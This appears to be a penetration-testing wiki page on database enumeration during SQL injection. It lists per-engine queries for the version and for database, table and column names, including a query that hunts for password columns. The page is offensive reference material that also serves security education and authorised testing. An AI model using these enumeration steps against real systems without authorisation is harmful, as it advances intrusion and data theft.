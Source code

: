 # Enum Database

## Theory

When exploiting SQL injection vulnerabilities, it is often necessary to gather some information about the database itself. This includes the type and version of the database software, and the contents of the database in terms of which tables and columns it contains.

## Practice

{% hint style="info" %}
All queries on this page can be used with different techniques as UNION or Blind based attacks
{% endhint %}

### Database version

Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.\
The queries to determine the database version for some popular database types are as follows:

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT @@version 
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT @@version 
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT banner FROM v$version
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT version() 
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT sqlite_version();
```
{% endtab %}
{% endtabs %}

### Database Names

When performing SQL injections, it can be useful to know the names of the databases that are present on the targeted server. Enumerating the database names allows you to identify which databases are available and potentially gain insight into the server's configuration and architecture. This information can be used to craft more targeted and effective SQL injection attacks.

{% tabs %}
{% tab title="MySQL" %}
We can enum the current database with the following query:

```sql
SELECT database();
```

We can list all databases with the following query:

```sql
SELECT schema_name FROM information_schema.schemata;
```
{% endtab %}

{% tab title="MSSQL" %}
We can enum the current database with the following query:

```sql
SELECT DB_NAME();
```

We can list all databases with the following queries:

```sql
SELECT name FROM master..sysdatabases;
/*or*/
SELECT DB_NAME(N); — for N = 0, 1, 2, …
```
{% endtab %}

{% tab title="OracleSQL" %}
We can enum the current database with the following queries:

```sql
SELECT global_name FROM global_name;
SELECT name FROM V$DATABASE;
SELECT instance_name FROM V$INSTANCE;
SELECT SYS.DATABASE_NAME FROM DUAL;
```

We can list all databases with the following query:

```sql
SELECT DISTINCT owner FROM all_tables;
```
{% endtab %}

{% tab title="PostgreSQL" %}
We can enum the current database with the following query:

```sql
SELECT current_database();
```

We can list all databases with the following query:

```sql
SELECT datname FROM pg_database;
```
{% endtab %}

{% tab title="SQLite" %}
We can extract current database structure with the following query:

```sql
SELECT sql FROM sqlite_schema;
```

We can list all databases with the following query:

```sql
PRAGMA database_list;
SELECT name FROM pragma_database_list;
```
{% endtab %}
{% endtabs %}

### Tables Names

The next step in performing SQL injections is to enumerate the tables that are present within each database. Enumerating the table names can provide valuable information about the structure and content of the databases.

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE();
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for views
SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_catalog = DB_NAME();
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT table_name FROM all_tables;

SELECT table_name FROM all_tables WHERE owner = USER;
SELECT table_name FROM all_tables WHERE owner = SYS_CONTEXT('USERENV', 'CURRENT_SCHEMA');

SELECT owner, table_name FROM all_tables;
SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE '%PASS%';
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_schema = current_schema();
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';
```
{% endtab %}
{% endtabs %}

### Columns Names

Next step is to enumerate columns within tables.It's a crucial step in the process of exploiting a SQL injection vulnerability.

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT column_name FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT column_name FROM information_schema.columns WHERE table_name='TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name';
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://portswigger.net/web-security/sql-injection" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}
